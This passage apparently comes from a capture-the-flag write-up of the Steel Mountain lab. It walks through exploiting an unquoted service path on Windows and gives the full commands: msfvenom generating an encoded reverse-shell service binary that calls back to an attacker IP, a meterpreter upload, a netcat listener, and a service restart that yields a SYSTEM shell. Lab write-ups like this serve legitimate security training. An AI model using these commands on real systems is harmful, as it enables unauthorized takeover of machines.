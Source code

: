 We will now run all the checks in this module using the following command.
```
Invoke-AllChecks
```
<img src="images/04.Steel-Mountain/16.png">

<img src="images/04.Steel-Mountain/17.png">

When we run the command, we can see that there is a unquoted service path vulnerability as we can see it in the checks.  More information on unquoted service path vulnerability can be found [here.](https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/) 

<img src="images/04.Steel-Mountain/18.png">

For the service AdvancedSystemCareService9, the CanRestart option is set to true which means that the service can be restarted. We will now create a malicious file and upload it in the IObit folder and then restart the service to get the reverse shell. The file name is set to Advanced because we are uploading the file into the path where the Advanced SystemCare folder is present as we know there is an unquoted service path vulnerability. Since the service AdvancedSystemCareService9 is running as system32, we will be getting a reverse shell as system32.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.2.217 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```
<img src="images/04.Steel-Mountain/19.png">

Exit the powershell. Using the earlier meterpreter reverse shell, change directory to the path IObit and then upload the malicious file that we created.
```
upload Advanced.exe
```
<img src="images/04.Steel-Mountain/20.png">

Open another terminal and use netcat listener on port 4443 to get the reverse shell.
```
nc -lnvp 4443
```
<img src="images/04.Steel-Mountain/21.png" height="200">

Now, load the command prompt shell using the command in the meterpreter shell.

```
shell
```

Restart the AdvancedSystemCareService9 service by using the following commands.

```
sc stop AdvancedSystemCareService9
```
```
sc start AdvancedSystemCareService9
```

Now we get a reverse shell in the other terminal window running as system32!

<img src="images/04.Steel-Mountain/22.png" height="200">

